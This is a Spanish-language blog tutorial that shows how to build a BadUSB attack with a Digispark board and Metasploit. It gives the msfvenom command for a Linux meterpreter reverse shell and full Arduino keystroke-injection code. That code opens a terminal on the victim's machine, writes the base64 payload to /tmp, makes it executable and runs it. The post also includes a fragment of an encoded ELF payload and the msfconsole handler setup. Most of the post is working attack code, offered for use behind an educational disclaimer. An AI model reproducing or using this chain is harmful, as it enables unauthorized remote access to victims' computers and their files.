 ```yaml
---
layout: post
title: Basic Exploit with Digispark

---
```

# Introducción
En el dia de hoy explicaremos como hacer una técnica de explotación básica ayudandonos de Digispark y metasploit framework.
Este post lo he creado en Español para difundir mi idioma y dar a conocer el mundo de la seguridad informática en Español.
Para comenzar necesitaremos lo siguiente:  
  - Digispark: [amazon](https://www.amazon.es/AZDelivery-Digispark-Kickstarter-Desarrollo-compatible/dp/B076KS2QDS/ref=asc_df_B076KS2QDS/?tag=googshopes-21&linkCode=df0&hvadid=301006161094&hvpos=1o1&hvnetw=g&hvrand=3258160503763513062&hvpone=&hvptwo=&hvqmt=&hvdev=c&hvdvcmdl=&hvlocint=&hvlocphy=9047059&hvtargid=pla-602427609241&psc=1)
  - Disposición Linux, en mi caso uso ubuntu 18.04
  - Metasploit Framework
  
Cabe mencionar que necesitamos comprar el Digispark, yo lo compré en Amazon, 3 por casi 10 euros y sin duda merece la pena, se puede hacer
tales cantidades de proyectos..

Todo lo que explico es con fines educativos, no me hago responsable del mal uso que le hagais a este post, simplemente me gusta enseñar las habilidades de hacking ético que conozco con el fin de que aprendais como podeis ser atacados y saber defenderos.

# Construyendo el exploit
Para crear el exploit debemos usar la herramienta msfvenom y excribir la siguiente linea de código: 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP A USAR) LPORT=(PUERTO A USAR) -f elf > exploit`

Como podemos observar lo que crearemos es un exploit el cual, al ejecutarse en el equipo victima (con distribución linux) nos abrirá una conexión tcp
la cual nos permitirá infectar el equipo y con meterpreter poder acceder a todos sus archivos. 
En la IP cada uno pondra su ip, se puede mirar abriendo la terminal y escribiendo el siguiente comando `ifconfig`, dependiendo si teneis vuestro computador enchufado por cable o lo teneis inalámbrico estará en una interfaz o otra. Esa IP es privada, es decir, solo os servirá para vuestra propia red, no obstante se puede crear este exploit y sacarlo fuera de la red local(LAN), pero eso lo dejaré para otro post. Dicho esto yo usaré mi IP privada y un puerto efímero, el 5000 por ejemplo.

![Foto1](/images/foto1.png)
 
Bien, para terminar de construir este exploit hay que tranformarlo a base64 para poder ejecutarlo directamente en la computadora víctima, asique escribiremos lo siguiente: `base64 exploit > exploit.b64`. Podemos comprobar que ha sido construido satisfactoriamente con el comando `cat exploit.b64`.

![Foto2](/images/foto2.png)

# Creando el script para Digispark
Bien, ahora pasemos a lo interesante de este post, crearemos un script en Arduino que nos permita crear un archivo b64 en la computadora victima, darle los permisos de ejecución con chmod y ejecutarlo para poder explotar el sistema. Para ello como ya he dicho nos apoyaremos en Arduino, para ponerlo en funcionamiento debereis descargarlo en la pagina oficial [arduino](https://www.arduino.cc/en/Main/Software) . Posteriormente en el arduino nos iremos a `Herramientas->Placa->Gestor de Tarjetas` y instalaremos `Digistump AVR boards`, por último en placa ya seleccionaremos `Digispark(Default - 16.5mhz)` y Fiuh listo ya podemos ponernos manos a la obra y empezar a crear nuestros primeros script para el Digispark. Como todos sabeis Arduino consta de dos funciones setup() en la cual inicializaremos los pines y cualquier otra cosa, se puede dejar en blanco y la función loop() que se repetira constantemente. Empezaremos con las lineas `#include "DigiKeyboard.h"` para poder trabajar con DigiKeyboard, que nos permitirá simular un teclado con el Digispark.
Yo os facilitaré el código que he creado para ejecutar el script en el ordenador víctima.
{% highlight c++ %}
#include "DigiKeyboard.h"
#define KEY_DELETE 0x4C
void setup() {
  
// Encendemos el LED para saber que se esta ejecutando
pinMode(1, OUTPUT);
delay(200);
digitalWrite(1, HIGH);
DigiKeyboard.sendKeyStroke(KEY_DELETE);
delay(200);

//Abrimos el buscador y escribimos terminal
DigiKeyboard.sendKeyStroke(0,MOD_GUI_LEFT); 
DigiKeyboard.delay(1000);
DigiKeyboard.print("terminal");
DigiKeyboard.delay(500);

// Creamos el payload
DigiKeyboard.print("echo");
DigiKeyboard.sendKeyStroke(KEY_SPACE);
DigiKeyboard.print("TU PAYLOAD");
DigiKeyboard.sendKeyStroke(KEY_1,MOD_ALT_RIGHT);
DigiKeyboard.print(" base64 //decode ");
DigiKeyboard.sendKeyStroke(100,2);
DigiKeyboard.print(" ");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("tmp");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("exploit");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(500);

// Cambiamos los permisos para poder ejecutarlo y lo ejecutamos
DigiKeyboard.print("chmod 755");
DigiKeyboard.sendKeyStroke(KEY_SPACE);
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("tmp");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("exploit");
DigiKeyboard.sendKeyStroke(KEY_ENTER);
DigiKeyboard.delay(200);
// Ejecutamos
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("tmp");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("exploit");
DigiKeyboard.sendKeyStroke(KEY_ENTER);

DigiKeyboard.delay(100);
// Paramos el led
digitalWrite(1, LOW);

}

void loop() {
// Para saber que el script se ha ejecutado con exito, mantendremos el led encendiendose y apagandose

digitalWrite(1, HIGH);
delay(200);

digitalWrite(1, LOW);
delay(300);

}
{% endhighlight %}
Bien, el código es un poco enrevesado, pero después de darle unas vueltas os dareis cuenta de que lo único que hace es: Encender el led rojo fijo, abrir la terminal, escribir el payload generado y guardarlo en un archivo, cambiarle los permisos y ejecutarlo, para terminar pone el led intermitente. Es simplemente eso.
Puedo comentaros algunos problemillas que he tenido, mi payload tenia una barra invertida entre medias entonces he tenido que dividir el print, y la barra la he puesto con la combinación de teclas que corresponde, puesto que si la escribía en el print daba errores con el teclado y no se escribia una / si no un - . Por eso en mi caso me quedaría asi ese trozo:
{% highlight c++ %}
DigiKeyboard.print("f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towKhkFGgCABOIieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZtgywA82AhcB4Av");
DigiKeyboard.sendKeyStroke(KEY_7,MOD_SHIFT_RIGHT);
DigiKeyboard.print("huAEAAAC7AQAAAM2A ");
{% endhighlight %}
Ahi apreciais como separo el payload, escribo la barra `/` y ya continuo. Os menciono esto por si, a la hora de escribir vuestro payload, como evidentemente el valor cambia, os adelanto este problema.
Para terminar esta parte, verificaremos nuestro programa, le daremos a subir y introduciremos el Digispark. Una vez subido podemos desenchufarlo y ya preparar la siguiente parte que es configurar metasploit. ¡¡Ya queda poco!!

# Configurando msfconsole
Llegados hasta aqui, ahora solo nos queda la parte divertida, configuraremos msfconsole para que se ponga a la escucha de conexiones TCP y explotar el sistema cuando se ejecute el payload en el equipo víctima. bien empezemos:
  - Ejecutamos en una terminal msfconsole -q (-q es para que no nos aparezca el banner)
  - Ejecutamos `use exploit/multi/handler` para seleccionar el exploit.
  - Ahora pasemos a configurar los parametros, pondremos set LHOST (NUESTRA IP) en mi caso: `set LHOST 192.168.100.20`.
  - Posteriormente establecemos el puerto que pusimos en el payload, en mi caso el 5000: `set LPORT 5000`.
  - Por ultimo seleccionamos el PAYLOAD que usamos anteriormente: `set PAYLOAD linux/x86/meterpreter/reverse_tcp`, y los datos que pusimos anteriormente se cargaran alli.
  
Siempre podemos usar `show options` para ver si hemos configurado correctamente todo.
  
  [foto3](/images/foto3.png)
  
Llegados a este punto ya podriamos probar si funciona nuestra prueba...

# Exploit...

Bien, por fin hemos llegado a la prueba de la verdad, es hora de enchufar nuestro Digispark al ordenador y ver si funciona, no obstante antes hay que poner meterpreter a la escucha, asique teclearemos en nuestra msfconsole: `exploit`, y ya se pondra a la escucha de la conexion TCP.

Aqui os dejo un pequeño video de lo que ocurre al enchufar nuestro Digispark, espero que os haya gustado, cualquier duda dejenmelo saber enviandome un mail.

  
